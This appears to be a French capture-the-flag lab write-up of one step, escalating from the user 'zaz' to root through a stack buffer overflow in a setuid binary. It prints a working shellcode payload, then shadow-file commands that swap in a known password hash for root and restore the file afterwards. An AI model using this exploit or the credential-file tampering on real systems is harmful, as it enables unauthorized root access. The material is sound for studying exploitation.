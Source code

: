 ### [13. zaz -> valhalla](#start) <a name=zaz>
Nous nous connectons en ssh au compte zaz avec ce mot de passe. On y trouve un exécutable assez particulier car il a été créé par l'utilisateur `root` et a été rendu `setuid`. Cela implique qu'il peut exécuter des commandes avec les privilèges de l'utilisateur root... Nous le décompilons en utilisant `ghidra`.

Ce fichier contient bien entendu une faille de sécurité basique car il réalise un `strcpy()` sans vérifier la taille de la chaîne copiée ni la taille du buffer utilisé. Il est intéressant de noter que ce buffer est déclaré sur la stack. 

L'attaque utilisée est un basique `stack-based buffer overflow`, réalisée en lançant la commande suivante :
```shell
python -c "print('\x90' * 80 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'f' * 15 + '\x70\xf6\xff\xbf')"
```

Cela nous permet d'obtenir un shell puis de :
- faire un backup de `/etc/shadow`
```shell
mv /etc/shadow /tmp/shadow
```
- remplacer le mot de passe root par le mot de passe connu de `zaz`
```shell
cat /tmp/shadow | grep zaz | awk -F ":" '{ OFS=":" ; $1="root"; print $0}' > /etc/shadow
```
- accéder au valhalla
```shell
su
```
- nettoyer après nous
```shell
mv /tmp/shadow /etc/shadow
```